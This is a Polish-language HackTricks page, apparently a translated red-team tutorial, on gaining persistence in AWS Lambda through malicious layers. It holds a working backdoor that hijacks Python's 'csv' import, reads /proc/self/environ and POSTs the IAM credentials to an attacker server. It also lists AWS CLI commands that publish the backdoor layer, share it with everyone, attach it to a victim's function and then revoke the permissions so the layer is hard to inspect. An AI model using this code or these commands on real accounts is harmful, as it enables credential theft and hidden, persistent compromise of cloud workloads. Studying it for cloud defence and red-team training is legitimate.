 # AWS - Trwałość warstw Lambda

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Warstwy Lambda

Warstwa Lambda to archiwum plików .zip, które **może zawierać dodatkowy kod** lub inne treści. Warstwa może zawierać biblioteki, [niestandardowy środowisko uruchomieniowe](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html), dane lub pliki konfiguracyjne.

Można dołączyć **do pięciu warstw na funkcję**. Gdy dołączysz warstwę do funkcji, **zawartość jest wypakowywana do katalogu `/opt`** w środowisku wykonawczym.

Domyślnie **warstwy**, które tworzysz, są **prywatne** dla twojego konta AWS. Możesz wybrać, aby **udostępnić** warstwę innym kontom lub **udostępnić** warstwę **publicznie**. Jeśli twoje funkcje korzystają z warstwy opublikowanej przez inne konto, twoje funkcje mogą **nadal korzystać z wersji warstwy po jej usunięciu lub po cofnięciu uprawnienia do dostępu do warstwy**. Nie można jednak utworzyć nowej funkcji ani aktualizować funkcji przy użyciu usuniętej wersji warstwy.

Funkcje wdrożone jako obraz kontenerowy nie korzystają z warstw. Zamiast tego pakujesz preferowane środowisko uruchomieniowe, biblioteki i inne zależności do obrazu kontenerowego podczas budowania obrazu.

### Ścieżka ładowania Pythona

Ścieżka ładowania, którą Python użyje w lambdzie, jest następująca:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
Sprawdź, jak **drugi** i trzeci **pozycje** są zajmowane przez katalogi, w których **warstwy lambdy** rozpakowują swoje pliki: **`/opt/python/lib/python3.9/site-packages`** i **`/opt/python`**

{% hint style="danger" %}
Jeśli atakujący zdoła **wstawić** używaną **warstwę lambdy** lub **dodać taką**, która będzie **wykonywać arbitralny kod podczas ładowania wspólnej biblioteki**, będzie mógł wykonać złośliwy kod przy każdym wywołaniu lambdy.
{% endhint %}

Dlatego wymagane są:

* **Sprawdź biblioteki**, które są **ładowane** przez kod ofiary
* Utwórz **bibliotekę proxy z warstwami lambdy**, która będzie **wykonywać niestandardowy kod** i **ładować oryginalną** bibliotekę.

### Wstępnie załadowane biblioteki

{% hint style="warning" %}
Podczas nadużywania tej techniki napotkałem trudność: Niektóre biblioteki są **już załadowane** w czasie wykonania kodu w pythonie. Spodziewałem się znaleźć rzeczy takie jak `os` lub `sys`, ale **nawet biblioteka `json` była załadowana**.\
Aby nadużyć tej techniki trwałego dostępu, kod musi **załadować nową bibliotekę, która nie jest załadowana** podczas wykonywania kodu.
{% endhint %}

Z pomocą takiego kodu w pythonie można uzyskać **listę bibliotek, które są wstępnie załadowane** w czasie wykonania pythona w lambdzie:
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
A to jest **lista** (sprawdź, czy biblioteki takie jak `os` lub `json` są już tam)
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
Oto lista **bibliotek**, które są **domyślnie zainstalowane w lambdzie**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3]

### Infekowanie warstw Lambdy

W tym przykładzie załóżmy, że docelowy kod importuje **`csv`**. Zamierzamy **zainfekować import biblioteki `csv`**.

Aby to zrobić, utworzymy katalog csv z plikiem **`__init__.py`** w ścieżce wczytywanej przez lambdę: **`/opt/python/lib/python3.9/site-packages`**\
Następnie, gdy lambda zostanie wykonana i spróbuje załadować **csv**, nasz plik **`__init__.py` zostanie załadowany i wykonany**.\
Ten plik musi:

* Wykonać nasz ładunek
* Załadować oryginalną bibliotekę csv

Możemy to zrobić za pomocą:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
Następnie utwórz archiwum zip z tym kodem w ścieżce **`python/lib/python3.9/site-packages/__init__.py`** i dodaj go jako warstwę lambdy.

Kod można znaleźć [**tutaj**](https://github.com/carlospolop/LambdaLayerBackdoor)

Zintegrowany ładunek **wyśle dane uwierzytelniające IAM do serwera PIERWSZY RAZ, gdy zostanie wywołany lub PO zresetowaniu kontenera lambdy** (zmiana kodu lub zimna lambda), ale **inne techniki** takie jak poniższe mogą również zostać zintegrowane:

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### Zewnętrzne warstwy

Zauważ, że można używać **warstw lambdy z zewnętrznych kont**. Ponadto, lambda może używać warstwy z zewnętrznego konta nawet jeśli nie ma uprawnień.\
Zauważ również, że **maksymalna liczba warstw, jakie może mieć lambda, to 5**.

Dlatego, aby zwiększyć wszechstronność tej techniki, atakujący mógłby:

* Zainfekować istniejącą warstwę użytkownika (nic nie jest zewnętrzne)
* **Utworzyć** **warstwę** w **swoim koncie**, dać **dostęp kontu ofiary** do użycia warstwy, **skonfigurować** **warstwę** w lambdzie ofiary i **usunąć uprawnienia**.
* **Lambda** nadal będzie mogła **używać warstwy**, a **ofiara nie** będzie miała łatwego sposobu na **pobranie kodu warstwy** (oprócz uzyskania powłoki rev wewnątrz lambdy)
* Ofiara **nie zobaczy zewnętrznych warstw** używanych z **`aws lambda list-layers`**

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF** sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na githubie.

</details>
